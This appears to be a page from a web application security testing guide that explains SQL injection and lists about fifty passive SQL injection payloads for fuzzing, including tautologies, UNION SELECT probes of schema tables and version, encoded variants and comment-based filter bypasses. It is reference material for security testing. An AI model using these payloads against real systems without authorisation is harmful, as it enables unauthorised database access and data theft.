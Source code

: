 ## SQL Injection

This attack can affect the database layer of an application and is typically present when user input is not filtered for SQL statements.

For details on Testing SQL Injection: [Testing for SQL Injection](../4_Web_Application_Security_Testing/4.8_Input_Validation_Testing/4.8.5_Testing_for_SQL_Injection_OTG-INPVAL-005.md)

SQL Injection is classified in the following two categories, depending on the exposure of database information (passive) or the alteration of database information (active).

- [Passive SQL Injection](#Passive-SQL-Injection-(SQP))
- [Active SQL Injection](#Active-SQL-Injection-(SQI))

Active SQL Injection statements can have a detrimental effect on the underlying database if successfully executed.

### Passive SQL Injection (SQP)

`'||(elt(-3+5,bin(15),ord(10),hex(char(45))))`
`||6`
`'||'6`
`(||6)`
`' OR 1=1--`
`OR 1=1`
`' OR '1'='1`
`; OR '1'='1'`
`%22+or+isnull%281%2F0%29+%2F*`
`%27+OR+%277659%27%3D%277659`
`%22+or+isnull%281%2F0%29+%2F*`
`%27+--+`
`' or 1=1--`
`" or 1=1--`
`' or 1=1 /*`
`or 1=1--`
`' or 'a'='a`
`" or "a"="a`
`') or ('a'='a`
`Admin' OR '`
`'%20SELECT%20*%20FROM%20INFORMATION_SCHEMA.TABLES--`
`) UNION SELECT%20*%20FROM%20INFORMATION_SCHEMA.TABLES;`
`' having 1=1--`
`' having 1=1--`
`' group by userid having 1=1--`
`' SELECT name FROM syscolumns WHERE id = (SELECT id FROM sysobjects WHERE name = tablename')--`
`' or 1 in (select @@version)--`
`' union all select @@version--`
`' OR 'unusual' = 'unusual'`
`' OR 'something' = 'some'+'thing'`
`' OR 'text' = N'text'`
`' OR 'something' like 'some%'`
`' OR 2 > 1`
`' OR 'text' > 't'`
`' OR 'whatever' in ('whatever')`
`' OR 2 BETWEEN 1 and 3`
`' or username like char(37);`
`' union select * from users where login = char(114,111,111,116);`
`' union select`
`Password:*/=1--`
`UNI/**/ON SEL/**/ECT`
`'; EXECUTE IMMEDIATE 'SEL' || 'ECT US' || 'ER'`
`'; EXEC ('SEL' + 'ECT US' + 'ER')`
`'/**/OR/**/1/**/=/**/1`
`' or 1/*`
`+or+isnull%281%2F0%29+%2F*`